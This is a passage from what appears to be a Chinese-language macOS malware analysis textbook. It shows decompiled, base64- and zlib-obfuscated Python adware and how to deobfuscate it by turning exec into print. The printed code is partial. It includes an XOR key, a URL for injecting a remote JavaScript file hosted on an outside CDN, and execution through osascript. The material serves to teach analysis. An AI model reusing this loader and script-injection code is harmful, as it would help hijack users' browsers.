 ```
# Python bytecode 2.7 (62211)
# Embedded file name: r.py
# Compiled at: 2018-07-18 14:41:28
import zlib, base64
exec zlib.decompress(base64.b64decode('eJydVW1z2jgQ/s6vYDyTsd3...SeC7f1H74d1Rw=')) 1
```

列表 4-13：反编译的 Python 代码（未指定的广告软件）

尽管现在我们得到了 Python 源代码，但大部分代码仍然以看似编码字符串的形式混淆。通过 `zlib.decompress` 和 `base64.b64decode` 的 API 调用，我们可以得出结论，原始源代码已被 base64 编码并使用 zlib 压缩，以稍微增加静态分析的难度。

去混淆代码最简单的方法是通过 Python Shell 解释器。我们可以将 `exec` 语句转换为 `print` 语句，然后让解释器为我们完全去混淆代码（列表 4-14）：

```
% **python**
> **import zlib, base64**
> **print zlib.decompress(base64.b64decode(eJydVW1z2jgQ/s6vYDyTsd3...SeC7f1H74d1Rw='))**
from subprocess import Popen,PIPE
...
class wvn:
  def __init__(wvd,wvB): 1
  wvd.wvU()
  wvd.B64_FILE='ij1.b64'
  wvd.B64_ENC_FILE='ij1.b64.enc'
  wvd.XOR_KEY="1bm5pbmcKc" 
  wvd.PID_FLAG="493024ui5o" 
  wvd.PLAIN_TEXT_SCRIPT=''
  wvd.SLEEP_INTERVAL=60
  wvd.URL_INJECT="https://1049434604.rsc.cdn77.org/ij1.min.js"
  wvd.MID=wvd.wvK(wvd.wvj())

  def wvR(wvd):
    if wvc(wvd._args)>0:
      if wvd._args[0]=='enc99':
        pass
    elif wvd._args[0].startswith('f='): 2
    try:
      wvd.B64_ENC_FILE=wvd._args[0].split('=')[1] 3
    except:
      pass

  def wvY(wvd):
    with wvS(wvd.B64_ENC_FILE)as f:
      wvd.PLAIN_TEXT_SCRIPT=f.read().strip()
      wvd.PLAIN_TEXT_SCRIPT=wvF(wvd.wvq(wvd.PLAIN_TEXT_SCRIPT))
      wvd.PLAIN_TEXT_SCRIPT=wvd.PLAIN_TEXT_SCRIPT.replace("pid_REPLACE",wvd.PID_FLAG)
      wvd.PLAIN_TEXT_SCRIPT=wvd.PLAIN_TEXT_SCRIPT.replace("script_to_inject_REPLACE",
                                                          wvd.URL_INJECT)
      wvd.PLAIN_TEXT_SCRIPT=wvd.PLAIN_TEXT_SCRIPT.replace("MID_REPLACE",wvd.MID)

  def wvI(wvd):
    p=Popen(['osascript'],stdin=PIPE,stdout=PIPE,stderr=PIPE)
    wvi,wvP=p.communicate(wvd.PLAIN_TEXT_SCRIPT)
```
